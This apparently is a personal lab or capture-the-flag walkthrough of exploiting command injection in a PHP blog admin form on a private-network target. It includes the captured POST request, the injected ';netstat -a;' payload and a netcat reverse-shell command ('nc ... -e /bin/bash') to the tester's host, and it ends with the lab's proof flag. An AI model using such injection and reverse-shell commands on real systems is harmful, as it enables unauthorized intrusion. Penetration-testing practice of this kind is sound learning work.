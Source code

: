 initial splash page
![[Pasted image 20250308080814.png]]
going to test `Command Injection` - when hitting `POST` got three fields `blogPost`, `compressCheckbox`, & `archiveCheckbox` 
![[Pasted image 20250308080958.png]]
```http
POST /admin/index.php HTTP/1.1

Host: 192.168.66.86

Content-Length: 57

Cache-Control: max-age=0

Accept-Language: en-US,en;q=0.9

Origin: http://192.168.66.86

Content-Type: application/x-www-form-urlencoded

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://192.168.66.86/admin/index.php

Accept-Encoding: gzip, deflate, br

Cookie: PHPSESSID=6e10d3ee676e160c6fc874489c9e8a94

Connection: keep-alive



blogPost=test&compressCheckbox=on&archiveCheckbox=archive
```
sending this to `intruder` going to use `/usr/share/payloadsallthethings/Command Injection/Intruder/command-execution-unix.txt` 
![[Pasted image 20250308081401.png]]
was able to get `Local Command Execution` with `;netstat -a;`
![[Pasted image 20250308081451.png]]
now sending to `repeater` to check my own commands - going to restart the machine because its acting up

can see that `nc` exists on the machine, should be able to get a reverse shell
![[Pasted image 20250308085055.png]]
setting up a listener on port `1337`
![[Pasted image 20250308085154.png]]
`nc 192.168.49.66 1337 -e /bin/bash` to get a `reverse shell`
![[Pasted image 20250308085252.png]]
caught `reverse shell` and got `proof.txt`
![[Pasted image 20250308085328.png]]
proof.txt `9f916d62b65ae0b8fefa8a5ab8d5724c`